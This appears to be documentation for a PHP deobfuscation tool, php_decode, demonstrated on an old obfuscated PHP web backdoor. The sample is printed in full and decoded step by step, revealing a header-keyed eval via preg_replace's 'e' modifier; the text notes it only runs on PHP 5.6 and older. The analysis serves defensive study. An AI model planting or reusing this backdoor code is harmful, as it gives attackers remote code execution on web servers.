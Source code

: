 php_decode malware example
==========================
Here is an example for an older obfuscated php malware file, which contains
a webserver backdoor triggered by cgi-variables:
```
<?php
$_XABbaW='pu7T'|~X2Zqnho8u;$y28TUF="mo~on{".jugio&mwwoo.'{k|w}o';$jsXxi7upHSA='O~%'^/*L'.
         'Wj*/dJb;$nAHW311b6=g_BA.'~o(B4g+;'^'S|'.boF1bwz_um;$afOOxRJlAQw="DU]ig-"./*zZ'.
         '=[AaQ?r{*/oogy."=3"&DQEIo."<?E:Y=?";$zn12LWt7t='?c}q<~*?wz{?;'.zjwn7cg.#fqAc7'.
         ';k'&'~bey>/gm^j3??*2'.womc.';qj';$dt='5USY [)j"LW`hO&j[?r^q-*f6)l6'^'j(8{``@>'.
         'Os-XT|}"3'.tGv9_WQNPVQ;$KZt5KcU='z~ZV3|?/>j[H^_q<2ggT|:+_*%w_'&'>>^ug|?}5}KX^'.
         '^2}>6{I/{+'.N39wz;$z0=' &1&962D(&014"`'|'011f1 !'.b81131BA;$Sf0NknItp='07'./*'.
         'k>*/mmv529.'='.ey77z.'>'&'z~ef?z2}{w='.s7gp;$JqX='$&'|'0B';$jHk5PZchGWm=#t2XJ'.
         '$'.QUSY.'!%xh'|'!'.KRCD.'%Eh!';$b1_Achmu='d`$'^'"0V';$B0=omwwnw&'g}}gnv';'lBb'.
         'Yns+={3r;';$acCiJEXKyLy='o@"EFv'|' 5Veh@';$Ovhb=HTvp_&mtTZ_;$TGFShc2WeJ=#m6Oh'.
         '}'&C;$eR42ZCQa=$y28TUF&('nev}'.owougo.'~'&owwwowmvmo.'~');$n2jWqxKmtC=/*Zt46p'.
         'i*/$jsXxi7upHSA^$b1_Achmu;$LUHdvaNPSFD=$B0&$acCiJEXKyLy;$UA1V8Z0Dvp=/*VCpvX5n'.
         '{q3@=%X&_+*/$nAHW311b6^$afOOxRJlAQw;$cUbXcou2nC=('7hh{&$]XWI 8##'.NAu7JW.#JKG'.
         ',E'^'A^'.YZER.' =2dLC]_%u^'.Mg5Pj)^$zn12LWt7t;$IXb=$dt^$KZt5KcU;if(!/*oLfFxRM'.
         'sY84}Eb*/$eR42ZCQa($n2jWqxKmtC($LUHdvaNPSFD($Ovhb.$TGFShc2WeJ)),$z0./*xvfjkHH'.
         '1_*/$Sf0NknItp.$JqX))$UA1V8Z0Dvp($jHk5PZchGWm,$LUHdvaNPSFD($cUbXcou2nC),/*mv7'.
         'oH,,L*/$IXb);#|F]|EbESjgVf@ xO;<$Iy&^~laRxST9+x rBcW2$^:NS-6kH7pdjdDpg^!dz <'.
```
When this file is parsed and formatted with all strings substituted by statement
tokens, it looks like this:
```
# php_decode -pu <file>

<?php $_XABbaW = #str2 | (~#const1); 
$y28TUF = (#str3 . #const2) & (#const3 . #str4); 
$jsXxi7upHSA = #str5 ^ #const4; 
$nAHW311b6 = (#const5 . #str6) ^ (#str7 . #const6); 
$afOOxRJlAQw = (#str8 . #const7 . #str9) & (#const8 . #str10); 
$zn12LWt7t = (#str11 . #const9 . #str12) & (#str13 . #const10 . #str14); 
$dt = #str15 ^ (#str17 . #const11); 
$KZt5KcU = #str18 & (#str20 . #const12); 
$z0 = #str21 | (#str22 . #const13); 
$Sf0NknItp = (#str23 . #const14 . #str24 . #const15 . #str25) & (#str26 . #const16); 
$JqX = #str27 | #str28; 
$jHk5PZchGWm = (#str29 . #const17 . #str30) | (#str31 . #const18 . #str32); 
$b1_Achmu = #str33 ^ #str34; 
$B0 = #const19 & #str35; 
#str37; 
$acCiJEXKyLy = #str38 | #str39; 
$Ovhb = #const20 & #const21; 
$TGFShc2WeJ = #str40 & #const22; 
$eR42ZCQa = $y28TUF & (#str41 . #const23 . #str42) & (#const24 . #str42); 
$n2jWqxKmtC = $jsXxi7upHSA ^ $b1_Achmu; 
$LUHdvaNPSFD = $B0 & $acCiJEXKyLy; 
$UA1V8Z0Dvp = $nAHW311b6 ^ $afOOxRJlAQw; 
$cUbXcou2nC = (#str43 . #const25 . #str44) ^ (#str45 . #const26 . #str46 . #const27) ^ $zn12LWt7t; 
$IXb = $dt ^ $KZt5KcU; 
if (!$eR42ZCQa ($n2jWqxKmtC ($LUHdvaNPSFD ($Ovhb . $TGFShc2WeJ)), $z0 . $Sf0NknItp . $JqX)) { 
        $UA1V8Z0Dvp ($jHk5PZchGWm, $LUHdvaNPSFD ($cUbXcou2nC), $IXb); 
} 
#str47; 
 ?>
```
It is not possible to substute variable names as well as strings, consts and numbers,
because php might generate variable names from strings (${var} vars) in parts of the
code. With actual string values the output looks like this:
```
# php_decode -p <file>

<?php $_XABbaW = 'pu7T' | (~X2Zqnho8u); 
$y28TUF = ('mo~on{' . jugio) & (mwwoo . '{k|w}o'); 
$jsXxi7upHSA = 'O~%' ^ dJb; 
$nAHW311b6 = (g_BA . '~o(B4g+;') ^ ('S|' . boF1bwz_um); 
$afOOxRJlAQw = ('DU]ig-' . oogy . '=3') & (DQEIo . '<?E:Y=?'); 
$zn12LWt7t = ('?c}q<~*?wz{?;' . zjwn7cg . ';k') & ('~bey>/gm^j3??*2' . womc . ';qj'); 
$dt = '5USY [)j"LW`hO&j[?r^q-*f6)l6' ^ ('j(8{``@>Os-XT|}"3' . tGv9_WQNPVQ); 
$KZt5KcU = 'z~ZV3|?/>j[H^_q<2ggT|:+_*%w_' & ('>>^ug|?}5}KX^^2}>6{I/{+' . N39wz); 
$z0 = ' &1&962D(&014"`' | ('011f1 !' . b81131BA); 
$Sf0NknItp = ('07' . mmv529 . '=' . ey77z . '>') & ('z~ef?z2}{w=' . s7gp); 
$JqX = '$&' | '0B'; 
$jHk5PZchGWm = ('$' . QUSY . '!%xh') | ('!' . KRCD . '%Eh!'); 
$b1_Achmu = 'd`$' ^ '"0V'; 
$B0 = omwwnw & 'g}}gnv'; 
'lBbYns+={3r;'; 
$acCiJEXKyLy = 'o@"EFv' | ' 5Veh@'; 
$Ovhb = HTvp_ & mtTZ_; 
$TGFShc2WeJ = '}' & C; 
$eR42ZCQa = $y28TUF & ('nev}' . owougo . '~') & (owwwowmvmo . '~'); 
$n2jWqxKmtC = $jsXxi7upHSA ^ $b1_Achmu; 
$LUHdvaNPSFD = $B0 & $acCiJEXKyLy; 
$UA1V8Z0Dvp = $nAHW311b6 ^ $afOOxRJlAQw; 
$cUbXcou2nC = ('7hh{&$]XWI 8##' . NAu7JW . ',E') ^ ('A^' . YZER . ' =2dLC]_%u^' . Mg5Pj) ^ $zn12LWt7t; 
$IXb = $dt ^ $KZt5KcU; 
if (!$eR42ZCQa ($n2jWqxKmtC ($LUHdvaNPSFD ($Ovhb . $TGFShc2WeJ)), $z0 . $Sf0NknItp . $JqX)) { 
        $UA1V8Z0Dvp ($jHk5PZchGWm, $LUHdvaNPSFD ($cUbXcou2nC), $IXb); 
} 
'&U8=M4[_NbnI9qtO+_DERphA}5:=A$!kyEdi3_9s'; 
 ?>
```
When php_decode is also instructed to apply all possible transformations
based on the values defined in the script, the output looks like this:
```
# php_decode <file>

<?php $_XABbaW = '��ޑ��Ǌ'; 
$y28TUF = 'mgvon{jtgio'; 
$jsXxi7upHSA = '+4G'; 
$nAHW311b6 = '4# .8^J5N8^V'; 
$afOOxRJlAQw = 'DQEIg,/E"Y=3'; 
$zn12LWt7t = '>beq<."-Vj3?;*"wn%c#1j'; 
$dt = '_}k"@;iTm?z8<3[HhK5(Hr}7xy:g'; 
$KZt5KcU = ':>ZT#|?-4hKH^^0<2&c@,:+N"!wZ'; 
$z0 = '071f963f87135ba'; 
$Sf0NknItp = '06ed60299e937b0'; 
$JqX = '4f'; 
$jHk5PZchGWm = '%[WS]%exi'; 
$b1_Achmu = 'FPr'; 
$B0 = 'gmugnv'; 
'lBbYns+={3r;'; 
$acCiJEXKyLy = 'ouvenv'; 
$Ovhb = 'HTTP_'; 
$TGFShc2WeJ = 'A'; 
$eR42ZCQa = 'levenshtein'; 
$n2jWqxKmtC = 'md5'; 
$LUHdvaNPSFD = 'getenv'; 
$UA1V8Z0Dvp = 'preg_replace'; 
$cUbXcou2nC = 'HTTP_X_H3G_DEVICE_NAME'; 
$IXb = 'eC1vcGVyYW1pbmktZmVhdHVyZXM='; 
if (!levenshtein(md5(getenv('HTTP_A')), '071f963f87135ba06ed60299e937b04f')) { 
        preg_replace('%[WS]%exi', getenv('HTTP_X_H3G_DEVICE_NAME'), 'eC1vcGVyYW1pbmktZmVhdHVyZXM='); 
} 
'&U8=M4[_NbnI9qtO+_DERphA}5:=A$!kyEdi3_9s'; 
 ?>
```
From this output it is obvious, that this cgi-script can call arbitrary php
code passed via a 'HTTP_X_H3G_DEVICE_NAME' HTTP-Header (replacing 'W' in 
the subject string), when an additional matching key is passed via the
'HTTP_A' HTTP-header.

The 'e'-flag of the preg_replace() function calls eval() on the result of
the completed replacement.

Note: 
  Since php-7.0 calling the preg_replace()-function with the 'e'-modifier
  is an error. And also since php-8.0 the propagation of an undefined const
  'bareword' to string is an error. So this malware script would only work
  on older versions of the php interpreter like php-5.6.

